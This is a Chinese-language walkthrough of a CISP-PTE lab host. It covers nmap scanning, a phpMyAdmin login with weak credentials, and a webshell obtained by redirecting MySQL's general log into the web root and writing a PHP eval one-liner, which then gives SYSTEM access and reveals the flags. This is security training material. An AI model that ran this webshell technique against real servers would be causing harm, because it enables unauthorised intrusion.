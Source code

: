 ```yaml
---
layout: post
title: CISP-PTE host综合
subtitle: CISP-PTE host综合
date: 2025-08-17 08:43
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. 靶场环境

![image.png](https://img.ghostliner.top/daeAAK.png)

## 2. 信息搜集

**网段扫描**

```shell
namp -sn 192.168.163.0/24
```

发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/ez0Fj4.png)

**端口扫描**

```shell
nmap -T5 -sS -p- 192.168.163.133
```

发现 80 端口

![image.png](https://img.ghostliner.top/2JBI0K.png)

### 2.1. 站点测试

**访问站点**

![image.png](https://img.ghostliner.top/C8byzv.png)

尝试弱密码登陆失败

**站点扫描**

![image.png](https://img.ghostliner.top/FyhiK5.png)

发现 phpmyadmin 登录页面

![image.png](https://img.ghostliner.top/RztLkB.png)

尝试弱密码登录，使用 root:password 登录成功

**版本信息**：

![image.png](https://img.ghostliner.top/GGH4Js.png)

**数据库列表**：

![image.png](https://img.ghostliner.top/OIo6HY.png)

发现 `picture_store` 和 `picture_system` 两个数据库表相同，且都有 admin 用户信息

![image.png](https://img.ghostliner.top/2hRoor.png)

admin 密码： `77ad15e68545d32e51bb61ec3325cfda`，尝试 MD5 解码失败 hhxxttxs

**思路**：

1. 疑似为 MD5，可以两个数据库都创建新用户，密码使用 MD5 编码，尝试登录
2. 使用 phpMyadmin 先 getshell 后查看登录代码

![image.png](https://img.ghostliner.top/zks6ij.png)

创建用户名：hack，密码： `e10adc3949ba59abbe56e057f20f883e`

![image.png](https://img.ghostliner.top/bPJon9.png)

![image.png](https://img.ghostliner.top/d6ukWw.png)

登录成功，发现 key1

![image.png](https://img.ghostliner.top/QZQJnI.png)

F12 查看 key1

![image.png](https://img.ghostliner.top/xh4yZQ.png)

## 3. getshell

### 3.1. `INTO OUTFILE` getshell

查看权限

```sql
show global variables like '%priv%';
show global variables like '%general_log%';
```

![image.png](https://img.ghostliner.top/mvrUvq.png)

`secure_file_priv` 显示 NULL，说明无权限使用 `INTO OUTFILE`，会报错：

![image.png](https://img.ghostliner.top/Ykin4g.png)

### 3.2. 日志 getshell

查看日志配置

```sql
show global variables like "general_log%";
```

![image.png](https://img.ghostliner.top/knKwFf.png)

更改日志配置

```sql
set global general_log="ON";
set global general_log_file="d:/phpstudy/www/hack.php";
show global variables like "general_log%";
```

修改成功：

![image.png](https://img.ghostliner.top/fO4O5c.png)

注入一句话木马

```sql
select '<?php echo 123;eval($_REQUEST[a]);?>';
```

![image.png](https://img.ghostliner.top/V3ANoJ.png)

访问 `/hack.php?a=PHP info();`，成功执行代码

![image.png](https://img.ghostliner.top/fqQ07n.png)

蚁剑连接

![image.png](https://img.ghostliner.top/PirWj9.png)

查看当前用户为 `system`

![image.png](https://img.ghostliner.top/Nyqsd6.png)

查看登录代码，确定是 MD5 编码

![image.png](https://img.ghostliner.top/Zc1h7Q.png)

查找 key 文件

```batch
for /r "d:\" %i in (key*.*) do echo %i
```

发现 `d:\phpStudy\WWW\images\key2.txt`

![image.png](https://img.ghostliner.top/68xoWh.png)

查看文件内容，获取 key2

![image.png](https://img.ghostliner.top/zRbram.png)

查看回收站，在 C 盘回收站发现 key3

![image.png](https://img.ghostliner.top/sPWhPa.png)

![image.png](https://img.ghostliner.top/CIHVug.png)
